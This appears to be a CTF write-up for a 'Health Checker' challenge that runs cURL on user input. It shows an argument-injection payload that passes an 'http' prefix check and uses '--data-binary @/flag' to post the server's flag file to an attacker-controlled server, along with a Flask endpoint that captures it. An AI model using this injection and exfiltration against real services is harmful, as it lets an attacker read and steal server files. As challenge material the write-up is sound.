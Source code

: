 ## Investigation

The problem described a cURL based deployment checker.
They gave us the code for this problem and I've included it here if you wanted to try it yourself. Check it out in Local Code.

On opening up the website, you're presented with this page:

![Landing](Images/HealthChecker-Landing.png)

It just seems to cURL any URL you put into it. The only options in the two dropdowns on the left were Curl and Server01 so you
couldn't change anything there. All you could change was the URL passed into it.

Going through the code, you see that the flag is just a file in the root directory. At no point is that file imported or used anywhere
else. It just exists in the root directory.

![Flag-File](Images/HealthChecker-Flag.png)

This kinda problem is actually fairly straightforward because they closed off all other paths of inquiry. I might have usually tried
some SQL injection or messing around with JWT's. But because there isn't any of that, and there is no way to get the flag other than
grabbing it from the root directory, you can really only do one thing. Use cURL to make the server grab the file locally and send it
back. Because the server is executing the cURL request themselves, and the flag is just a file on the server, they'll have access to 
the file I need.

You can see in the code that they have a command class which stores the cURL command and executes it. Before they make the object
though, they see if the cURL input starts with 'http'. If not, they just point to themselves so the cURL request just returns the HTTP
of the Health Checker website itself.

![Class](Images/HealthChecker-CommandClass.png)

![Object](Images/HealthChecker-Object.png)

The http check makes it slightly more difficult, I'll have to make sure I can execute what I need while still fulfilling their 
requirements.

cURL has a great man page that is user friendly. I went searching there on how to get local files and they gave me almost exactly
what I needed.

```
--data-binary <data>

(HTTP) This posts data exactly as specified with no extra processing whatsoever.

If you start the data with the letter @, the rest should be a filename. Data is posted in a similar manner as -d, --data does, except that newlines and carriage returns are preserved and conversions are never done.

Like -d, --data the default content-type sent to the server is application/x-www-form-urlencoded. If you want the data to be treated as arbitrary binary data by the server then set the content-type to octet-stream: -H "Content-Type: application/octet-stream".

If this option is used several times, the ones following the first will append data as described in -d, --data.

Example:

 curl --data-binary @filename https://example.com
```

Making some slight tweaks to their examples would get me the flag.

## Solution

I was having some issues using the input on their site so I decided to just hit their API directly with cURL. They pull a "host" 
parameter from the request which is what they put into their cURL command. Sending the flag back to my own terminal didn't seem
possible, but I could get them to grab the flag and send it to my own server. A Flask server I had set up for the CTF was going
to come into use again.

I needed the host parameter to start with http but also include the part where I get a file. cURL is very versatile though. I can 
make it start with a legitimate website to hit, and then include the part where I get a file and send it back.

I set the host parameter to

```
host=http://www.columbia.edu/~fdc/sample.html --data-binary @/flag https://MYOWNSERVER.com/healthflag
```

The whole cURL command I executed then was:

```
curl -X POST http://THEIRWEBSITE.com/api/curl -d "host=http://www.columbia.edu/~fdc/sample.html --data-binary @/flag https://MYOWNSERVER.com/healthflag"
```

First they would hit a sample website from Columbia University. This would fulfill the http requirement of the host parameter.
Then it would grab the flag by using the --data-binary option. It will take the local flag file and send it to my own server,
where I'll print the flag and it'll show up in my server logs.

The Flask endpoint I created just printed the request:

```
@app.route('/healthflag', methods=["PUT","POST"])
def getJWK():
    print('TEST')
    print(request.form)
    return ''
```

Executing the above cURL request with that endpoint printed the flag into the server logs.

![Final-Flag](Images/HealthChecker-FinalFlag.png)

Executing user input is inherently a dangerous thing. I've always been curious how sites like isitdownrightnow.com checked if a 
website was up. They must have many checks to make sure they're not opening themselves up to vulnerabilities just like these.